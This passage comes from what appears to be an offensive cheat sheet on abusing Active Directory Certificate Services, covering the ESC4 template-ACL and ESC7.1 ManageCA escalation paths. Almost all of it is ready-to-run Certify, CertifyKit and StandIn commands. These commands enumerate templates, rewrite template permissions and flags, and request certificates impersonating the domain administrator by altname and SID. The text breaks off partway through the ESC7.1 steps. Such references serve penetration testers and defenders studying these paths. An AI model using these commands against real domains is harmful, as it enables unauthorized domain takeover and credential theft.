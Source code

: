 <br>

### <a name="24"></a>2.4 &nbsp;&nbsp; ESC4

Condition: 

- Certificate with overly permissive ACLs (Owner, FullControl, WriteOwner, WriteDacl, WriteProperty) allow to modify settings -> Exploit ESC1, ESC2, ESC3

Enumeration:

```
C:\Tools\Certify.exe find /templates
C:\Tools\Certify.exe pkiobjects
C:\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter TEMPLATE_NAME
C:\Tools\CertifyKit.exe find /templates
```

Enable SmartCardLogon EKU instead of the Client Authentication EKU:

```
C:\Tools\CertifyKit.exe request /ca:CA_NAME /template:TEMPLATE_NAME /altname:administrator /domain:DOMAIN /alter /sidextension:DOMAIN_SID-500
```

Exploitation:

```
C:\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter TEMPLATE_NAME --ess --add
C:\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter TEMPLATE_NAME --ntaccount DOMAIN\USER --enroll --add
StandIn_v13_Net45.exe --ADCS --filter TEMPLATE_NAME --clientauth --add
C:\Tools\StandIn\StandIn_v13_Net45.exe --adcs --filter User --ntaccount DOMAIN\USER --write --add
```


<br>

### <a name="25"></a>2.5 &nbsp;&nbsp; ESC7.1

Condition:

- User has ManageCA and ManageCertificates rights over the CA

Enumeration:

```
C:\Tools\Certify.exe cas
C:\Tools\Certify.exe find
```

Request certificate from SubCA for the EA using [this version of Certify](https://github.com/blackarrowsec/Certify) - You get denied access but get the private key:

```
C:\Tools\Certify.exe request /ca:CA_NAME /template:subCA /altname:administrator /domain:internalDOMAIN /sidextension:DOMAIN_SID-500
```

Issue the failed certificate request:
